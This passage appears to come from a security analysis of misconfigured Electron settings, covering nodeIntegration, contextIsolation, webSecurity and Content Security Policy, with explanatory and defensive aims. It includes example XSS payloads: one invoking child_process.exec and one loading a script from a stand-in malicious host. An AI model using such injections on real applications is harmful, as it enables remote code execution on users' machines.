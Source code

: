 ### 4. Deep Analysis of Misconfiguration of Electron Security Settings

#### 4.1. Technical Details of Misconfiguration

Electron applications, by design, blend web technologies (HTML, CSS, JavaScript) with Node.js capabilities to build cross-platform desktop applications. This powerful combination, however, introduces significant security considerations. Electron provides several security settings to mitigate the risks associated with running untrusted web content within a Node.js environment. Misconfiguring these settings can drastically weaken the application's security posture.

Let's examine the key settings and their implications when misconfigured:

*   **`nodeIntegration`:**
    *   **Default (Historically):** `true` (In older Electron versions, and often still seen in legacy code or quick-start examples).
    *   **Secure Configuration:** `false`
    *   **Misconfiguration Impact:** When `nodeIntegration` is `true`, JavaScript code running in the renderer process (your web pages) has direct access to Node.js APIs. This is extremely dangerous because if an attacker can inject malicious JavaScript (e.g., through XSS), they can execute arbitrary code on the user's machine with the full privileges of Node.js. This effectively grants Remote Code Execution (RCE).
    *   **Example Scenario:** An XSS vulnerability in the application allows an attacker to inject `<script>require('child_process').exec('malicious_command')</script>`. With `nodeIntegration: true`, this code will execute the command on the user's system.

*   **`contextIsolation`:**
    *   **Default:** `false` (Historically, and often still seen in legacy code).
    *   **Secure Configuration:** `true`
    *   **Misconfiguration Impact:** When `contextIsolation` is `false`, the JavaScript context of the renderer process is shared between your application code and any loaded web content (including potentially malicious scripts). This means that even if `nodeIntegration` is `false`, attackers can potentially bypass security measures by manipulating the shared JavaScript environment. It also makes it harder to implement secure communication between the renderer and main processes.
    *   **Example Scenario:** Even with `nodeIntegration: false`, if `contextIsolation: false`, an attacker exploiting XSS might be able to access and manipulate variables or functions in your application's JavaScript scope, potentially leading to data leakage or further exploitation.

*   **`webSecurity`:**
    *   **Default:** `true`
    *   **Secure Configuration:** `true` (Should generally always be enabled).
    *   **Misconfiguration Impact:** When `webSecurity` is `false`, Electron disables crucial web security features like the Same-Origin Policy (SOP). SOP is fundamental to preventing malicious websites from accessing data from other websites. Disabling it in Electron applications opens up vulnerabilities to cross-site scripting and other web-based attacks.
    *   **Example Scenario:** With `webSecurity: false`, a malicious website loaded within the Electron app could potentially access local files or resources of the application, bypassing standard browser security restrictions.

*   **Content Security Policy (CSP):**
    *   **Default:** No CSP enforced unless explicitly configured.
    *   **Secure Configuration:**  A restrictive CSP tailored to the application's needs.
    *   **Misconfiguration Impact:**  A weak or missing CSP allows attackers to inject and execute arbitrary scripts from external sources or inline within the application. This is a primary enabler of XSS attacks. Even with other security settings enabled, a permissive CSP can negate their effectiveness by allowing malicious scripts to run.
    *   **Example Scenario:**  Without a CSP, or with a very permissive CSP like `default-src *`, an attacker can easily inject `<script src="https://malicious.example.com/evil.js"></script>` through an XSS vulnerability, and the browser will happily load and execute it. A properly configured CSP would block this external script.
